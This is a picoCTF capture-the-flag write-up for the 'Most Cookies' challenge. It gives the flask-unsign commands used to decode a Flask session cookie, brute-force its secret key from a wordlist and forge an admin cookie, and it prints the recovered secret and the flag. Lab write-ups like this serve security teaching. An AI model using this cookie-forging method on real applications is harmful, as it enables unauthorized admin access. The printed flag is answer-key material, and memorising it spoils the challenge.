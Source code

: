 ## Most Cookies

[Link to challenge](https://play.picoctf.org/practice/challenge/177)

Write-up:

1. We are given the server code. We notice a random secret key is picked from a 
list, and that is used to encode cookies. We need to set cookie `very_auth` to `admin`.
However, we don't know which key is being used to encode it, so we can brute-force it.

2. `flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aKXHRA.Tb-deBNQhRgZhgR1MRQYZCPLXRA'` allows
us to decode session cookie: `{'very_auth': 'blank'}`

3. To find out which secret key is being used, we use: <br>
`flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aKXHRA.Tb-deBNQhRgZhgR1MRQYZCPLXRA' --wordlist cookie_names.txt` <br>

This returns 'peanut butter'.

4. To forge `{'very_auth': 'admin'}`, we use: <br>
`flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'` <br>

This returns `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aKXKnw.F9BxFJ0hVg5EiWG1Zc9d8wti1AQ`, and setting 
session cookie to this value allows us to access `/display` and get flag: picoCTF{pwn_4ll_th3_cook1E5_22fe0842}

